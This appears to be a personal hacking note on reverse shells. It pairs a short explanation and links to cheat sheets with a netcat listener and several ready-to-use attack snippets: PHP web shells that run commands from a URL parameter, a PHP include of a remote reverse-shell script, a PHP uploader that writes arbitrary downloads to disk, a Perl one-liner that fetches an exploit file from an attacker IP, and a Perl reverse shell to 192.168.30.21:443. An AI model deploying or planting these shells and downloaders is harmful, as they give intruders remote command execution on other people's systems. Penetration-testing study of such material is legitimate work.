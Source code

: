 ```yaml
---
is_a: "[[note]]"
of: "[[hacking]]"
---
```

# Notes
Most systems are protected by firewalls restricting inbound traffic. A reverse shell bypasses this by making *outbound* connections from the system to a hacker-controlled one.

## Links
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- http://roo7break.co.uk/?p=215
- [Bernardo Dag: Reverse shells one-liners](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)
- [lanmaster53.com](https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
	- [http://laudanum.secureideas.net/](http://laudanum.secureideas.net/)
- http://pentestmonkey.net/blog/post-exploitation-without-a-tty
- https://gtfobins.github.io/#+reverse%20shell
- https://snyk.io/blog/reverse-shell-attack/

# Netcat listener
You need a listener for the reverse shell to connect back to. It should be open to the internet (or at least the IPs being attacked).
```bash
nc -lvp 9001
```

# Shell One-liners

```
PHP one-liners

<?php echo system($_GET['cmd']); ?>

<?php echo shell_exec($_GET['cmd']); ?>

<?php include "http://192.168.30.21/php-reverse-shell443.php"; ?>
```

This will execute $cmd in the background (no cmd window) without PHP waiting for it to finish, on both Windows and Unix.
```
<?php
function execInBackground($cmd) {
if (substr(php_uname(), 0, 7) == "Windows"){
pclose(popen("start /B ". $cmd, "r"));
}
else {
exec($cmd . " > _dev_null &");
}
}
?>
```

Short php uploader
```
<?php
try {
ini_set('allow_url_fopen', true);
$data = file_get_contents($_GET['url']);
$handle = fopen($_GET['dest'], "w");
fwrite($handle, $data);
fclose($handle);
echo 'Download succeeded';
} catch (Exception $e) {
echo 'Caught exception: ',  $e->getMessage(), "\n";
}
?>
```

Use perl when no wget
```
perl -e 'use File::Fetch; my $ff = File::Fetch->new(uri => "http://192.168.30.21/28718.c"); my $where = $ff->fetch() or die $ff->error;'
```

Need to test, but should create a reverse shell in Perl on both Linux and Windows
 # Create reverse shell in background
```
my $pid = fork;
if ($pid == 0) {
my $c=new IO::Socket::INET(PeerAddr=>"192.168.30.21:443");
STDIN->fdopen($c, 'r');
STDOUT->fdopen($c, 'w');
STDERR->fdopen($c, 'w');
while (<>) {
system($_);
}
}
```
